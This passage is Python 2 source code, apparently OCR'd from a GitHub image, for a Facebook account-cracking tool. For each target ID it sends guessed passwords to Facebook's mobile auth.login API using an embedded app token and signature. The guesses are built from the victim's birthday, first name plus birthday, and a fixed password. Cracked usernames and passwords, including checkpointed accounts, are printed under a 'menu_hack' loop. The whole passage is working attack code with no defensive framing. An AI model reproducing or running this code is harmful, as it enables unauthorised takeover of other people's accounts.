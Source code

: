 							menu_hack()
						else:
							if 'www.facebook.com' in y["error_msg"]:
								print "\033[1;91m[+] \033[1;92mFound"
								print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
								print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
								print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
								print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz3
								raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
								menu_hack()
							else:
								lahir = a['birthday']
								pz4 = lahir.replace('/', '')
								data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pz4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
								y = json.load(data)
								if 'access_token' in y:
									print "\033[1;91m[+] \033[1;92mFound"
									print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
									print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
									print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz4
									raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
									menu_hack()
								else:
									if 'www.facebook.com' in y["error_msg"]:
										print "\033[1;91m[+] \033[1;92mFound"
										print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
										print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
										print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
										print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz4
										raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
										menu_hack()
									else:
										lahirs = a['birthday']
										gaz = lahirs.replace('/', '')
										pz5 = a['first_name']+gaz
										data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pz5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
										y = json.load(data)
										if 'access_token' in y:
											print "\033[1;91m[+] \033[1;92mFound"
											print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
											print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
											print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz5
											raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
											menu_hack()
										else:
											if 'www.facebook.com' in y["error_msg"]:
												print "\033[1;91m[+] \033[1;92mFound"
												print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
												print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
												print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
												print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz5
												raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
												menu_hack()
											else:
												pz6 = "bintang123"
												data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pz6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
												y = json.load(data)
												if 'access_token' in y: